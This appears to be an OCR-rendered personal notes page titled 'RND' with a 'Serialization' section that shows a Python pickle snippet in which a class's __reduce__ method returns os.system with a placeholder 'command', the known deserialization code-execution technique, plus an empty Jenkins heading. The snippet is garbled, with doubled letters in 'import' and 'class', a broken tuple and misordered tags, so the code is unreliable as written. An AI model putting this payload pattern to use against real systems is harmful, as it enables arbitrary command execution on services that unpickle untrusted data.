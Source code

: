 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```



<h2 id="serializations">Serialization</h2>
<a href="serialization-python">
<li>Python</li>
  <fieldset>
    <legend>Python Serialization</legend>
      <pre><code>
        iimport cPickle
        iimport os
        
        iiclass Blah(object):
          def __reduce__(self):
            return (os.system,('command'.))'
        
        
        b = Blah()
        print cPickle.dumps(b)
      </pre></code>
  </fieldset>
</a>


<a href="serialization-in-jenkins">
  <li>Jenkins</li>
</a>





